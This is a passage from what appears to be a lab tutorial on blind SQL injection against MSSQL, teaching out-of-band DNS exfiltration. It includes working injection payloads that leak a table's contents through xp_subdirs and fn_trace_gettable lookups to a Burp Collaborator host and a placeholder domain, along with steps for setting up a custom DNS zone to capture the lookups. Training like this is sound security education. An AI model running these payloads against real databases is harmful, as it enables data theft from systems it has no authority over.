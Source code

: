 ```sql
';DECLARE @T VARCHAR(MAX);DECLARE @A VARCHAR(63);DECLARE @B VARCHAR(63);SELECT @T=CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), flag), 1) FROM flag;SELECT @A=SUBSTRING(@T,3,63);SELECT @B=SUBSTRING(@T,3+63,63);EXEC('master..xp_subdirs "\\'+@A+'.fgz790y9hgm95es50u9vfld51w7mvb.burpcollaborator.net\x"');EXEC('master..xp_subdirs "\\'+@B+'.fgz790y9hgm95es50u9vfld51w7mvb.burpcollaborator.net\x"');--

```

Although it takes a little bit longer, it works:

![image](https://academy.hackthebox.com/storage/modules/177/amdonuts/12.png)

Note: Out-of-Band DNS exfiltration is `not unique to SQL injections`, but may also be used with other blind attacks to extract data or commands output, such as `blind XXE` (eXternal XML Entities) or blind `command injection`.

## Using a Custom DNS Record

The above two examples with `Interact.sh` and `Burp Collaborator` showed how this attack can be carried over the internet using the DNS/domain logging services provided by them. DNS Out-of-band data exfiltration is also possible when pentesting any organization's local network, and can be performed locally without going over the internet if we had access to the organization's local DNS server. Furthermore, we may still carry the attack over the internet without relying on `Interact.sh` and `Burp Collaborator` by creating a custom DNS record with any ISP or DNS authority, as we will show below.

The VM below has a DNS server setup that allows us to add new domain names, which simulates a DNS authority in real-life that we would use to add new DNS records/domains.

We can access its dashboard on port ( `5380`) and login with the default credentials ( `admin`: `admin`), and then click on `Zones` and then `Add Zone`. Then, we can enter any unique domain name we want to receive the requests on, we will use `blindsqli.academy.htb` in this case, and select it as a `Primary Zone`:
![dns_oob_add_zone](https://academy.hackthebox.com/storage/modules/177/amdonuts/dns_oob_add_zone.jpg)

Next, we can add an `A` record that forwards requests to our attack machine IP. We can keep the name as `@` (wild card to match any sub-domain/record), select the type `A` (IPv4 DNS record), and set our machine's IP address:
![dns_oob_add_a_record](https://academy.hackthebox.com/storage/modules/177/amdonuts/dns_oob_add_a_record.jpg)

As we are using a custom DNS domain and have access to the DNS server logs, we do not need to setup another listener like `interact.sh` to capture the logs (though it is still an option), and instead we can directly monitor the DNS logs on the DNS web application and search through incoming DNS requests.

## Practical Example

Let's try a DNS OOB attack as demonstrated earlier, and see how we can exfiltrate data in action. This time, we will carry the attack on the other ( `Aunt Maria's Donuts`) web app, so that we can show a different example. We will inject one of the payloads mentioned earlier, as follows:

```sql
DECLARE @T VARCHAR(1024); SELECT @T=(SELECT 1234); SELECT * FROM fn_trace_gettable('\\'+@T+'.YOUR.DOMAIN\x.trc',DEFAULT);

```
